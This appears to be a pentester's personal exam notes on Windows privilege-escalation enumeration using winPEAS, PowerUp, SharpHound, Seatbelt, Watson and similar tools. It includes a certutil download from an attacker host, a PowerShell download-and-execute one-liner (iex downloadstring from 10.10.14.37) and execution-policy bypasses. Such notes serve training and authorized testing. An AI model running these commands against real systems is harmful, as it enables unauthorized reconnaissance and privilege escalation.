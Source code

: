 
## Windows auto enumeration:
    - windows-exploit-suggester (kernel)
        - Update database
            > ~/notes/exam/binaries/Windows/_enumeration/windows-exploit-suggester.py -u
        - on windows system show systeminfo and copy to linux machine as a .txt
            > systeminfo
            - copy all of screen output to a file on kali (Example "sysinfo.txt")
        - run windows-exploit-suggester 
            > ~/notes/exam/binaries/Windows/_enumeration/windows-exploit-suggester.py -d 2020-04-06-mssb.xls --systeminfo sysinfo.txt
    - winPEAS
        - run the following regkey to windows cmd to enable colors
            > reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1 
        > winpeas.exe > winpeas.out
        - transfer back to kali and run the following to view it
            > less -f -r winpeas.out
                    - Services (search for)
            > cat winpeas.out
    - windows-privesc-check
        > certutil.exe -urlcache -split -f http://192.168.19.21/windows-privesc-check2.exe C:\Users\xavier\Downloads\windows-privesc-check2.exe
        > windows-privesc-check2.exe --audit -a -o wpc-report 
    - Watson
        - Check .NET framework version (highest value listed)
            > reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
        - Check architecture (If ProgramFilesX86 appears its 64 bit)
            - see above for how to look this up
        - Determine if this is Windows 7 or older for verison to compile
        - Open visual studio with .slv watson version
        - Project > Watson Properites > set .NET framework version
        - Build > watson > Configuration Manager
            - Set to release, then x86 (make <new> and copy All CPU)
        - Build > Build Watson
        - Uploadd run on system
    - SharpHound.ps1 (For AD enumeration)
        > . .\SharpHound.ps1
        > Invoke-BloodHound -CollectionMethod All
        > transfer the .bin and .zip file back to Kali
    - Use PowerUp.ps1
        - 64bit via powershell
            > powershell -exec bypass
            > . .\PowerUp.ps1
            > Invoke-AllChecks
        - 64bit via cmd
            > C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -c "iex(new-object net.webclient).downloadstring('http://10.10.14.37/PowerUp.ps1'); Invoke-AllChecks
    - Use Sharpup.exe (precompiled PowerUp)
        > Sharpup.exe
    - Seatbelt.exe (Data gathering)
        > SeatBelt.exe All > seatbelt.out
        - Search for nonstandard processes
            > Seatbelt.exe NonstandardProcesses
    - jaws
        - output to screen 
            > powershell.exe -executionpolicy bypass -file .\jaws-enum.ps1
        - output to file
            > powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename jaws.out

